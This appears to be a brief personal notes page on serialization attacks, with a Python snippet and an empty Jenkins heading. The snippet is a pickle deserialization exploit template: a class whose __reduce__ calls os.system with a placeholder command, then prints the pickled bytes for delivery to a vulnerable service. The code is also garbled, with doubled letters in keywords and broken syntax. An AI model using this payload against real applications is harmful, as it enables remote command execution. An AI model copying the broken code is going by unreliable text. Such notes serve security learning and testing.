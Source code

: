 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<a href="serialization-python">
<li>Python</li>
<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    iimport cPickle
    iimport os
    
    iiclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
  </pre></code>

</fieldset>
</a>
<a href="serialization-in-jenkins">
  <li>Jenkins</li>
</a>





